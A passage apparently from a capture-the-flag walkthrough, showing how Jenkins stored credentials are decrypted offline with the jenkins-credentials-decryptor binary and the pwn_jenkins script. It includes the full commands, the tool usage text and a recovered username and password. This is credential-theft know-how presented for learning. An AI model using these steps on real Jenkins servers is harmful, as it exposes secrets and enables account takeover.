 Downloading the Go binary from jenkins-credential-decryptor like in [these instructions](https://github.com/hoto/jenkins-credentials-decryptor#run-using-a-binary) works great:

```

oxdf@hacky$ curl -L \
>   "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
>    -o jenkins-credentials-decryptor
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   687  100   687    0     0   5088      0 --:--:-- --:--:-- --:--:--  5088
100 2336k  100 2336k    0     0  4382k      0 --:--:-- --:--:-- --:--:-- 10.3M
oxdf@hacky$ chmod +x jenkins-credentials-decryptor
oxdf@hacky$ ./jenkins-credentials-decryptor 
Please provide all required flags.

Usage:

  jenkins-credentials-decryptor \
    -m master.key \
    -s hudson.util.Secret \
    -c credentials.xml \
    -o json

Flags:
  -c string
        (required) credentials.xml file location
  -m string
        (required) master.key file location
  -o string
        (optional) output format [json|text] (default "json")
  -s string
        (required) hudson.util.Secret file location
  -version
        (optional) show version

oxdf@hacky$ ./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml 
[
  {
    "id": "320a60b9-1e5c-4399-8afe-44466c9cde9e",
    "password": "c1cdfun_d2434\u0003\u0003\u0003",
    "username": "oliver"
  }
]

```

The pwn\_jenkins [Python script](https://github.com/gquere/pwn_jenkins) works as well:

```

oxdf@hacky$ wget https://raw.githubusercontent.com/gquere/pwn_jenkins/master/offline_decryption/jenkins_offline_decrypt.py
--2022-02-27 18:47:56--  https://raw.githubusercontent.com/gquere/pwn_jenkins/master/offline_decryption/jenkins_offline_decrypt.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 2606:50c0:8000::154, 2606:50c0:8001::154, 2606:50c0:8002::154, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6875 (6.7K) [text/plain]
Saving to: ‘jenkins_offline_decrypt.py’

```